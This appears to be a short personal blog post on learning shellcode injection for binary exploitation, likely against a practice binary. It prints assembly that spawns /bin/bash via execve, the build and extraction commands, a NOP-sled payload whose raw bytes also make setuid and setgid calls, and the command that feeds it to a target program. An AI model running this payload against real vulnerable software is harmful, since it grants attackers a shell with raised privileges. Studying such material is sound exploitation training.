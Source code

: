 ```yaml
---
title: "Shellcode Injection 101"
image: ''
date: 2021-11-06 07:00:00
tags: [shellcode injection]
description: 'Learning and thought process doing binary exploitation'
categories: [binary exploitation]
---
```


# shellcode injection.

my first ever shellcode written in assembly:

```wasm
.global _start
_start:
.intel_syntax noprefix
  mov rax, 59 # syscall number of execve
  lea rdi, [rip+binsh] # points to binsh
  mov rsi, 0 # makes second argument , argv, NULL
  mov rdx, 0 # makes third argument, envp, NULL
  syscall
binsh:
  .string "/bin/bash"
```

we can then assemble the code

```bash
gcc -nostdlib -static shellcode.s -o shellcode.elf
```

```bash
objcopy --dump-section .text=shellcode-raw shellcode.elf
```

```bash
python -c "print('\x90'*880 + '\x48\x31\xff\x48\xc7\xc0\x69\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x6a\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00')" > shellcode
```

```bash
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode-raw
```

```bash
( cat ~/shellcode;cat ) | ./binary
```

### references.

- [https://gist.github.com/camargo/68f761533c249688b9596bf03253309a](https://www.notion.so/68f761533c249688b9596bf03253309a)
- [https://dhavalkapil.com/blogs/Shellcode-Injection/](https://dhavalkapil.com/blogs/Shellcode-Injection/)
